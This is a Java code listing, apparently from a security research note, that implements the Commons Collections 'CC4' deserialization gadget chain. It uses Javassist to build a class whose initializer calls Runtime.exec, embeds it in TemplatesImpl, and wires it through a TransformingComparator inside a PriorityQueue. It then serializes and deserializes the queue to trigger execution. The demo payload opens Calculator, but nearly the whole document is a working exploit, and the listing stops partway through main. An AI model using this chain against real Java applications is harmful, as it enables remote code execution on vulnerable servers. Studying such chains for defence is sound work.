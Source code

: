 ```java
    public static void CC4() throws CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = obj.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(priorityQueue);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
```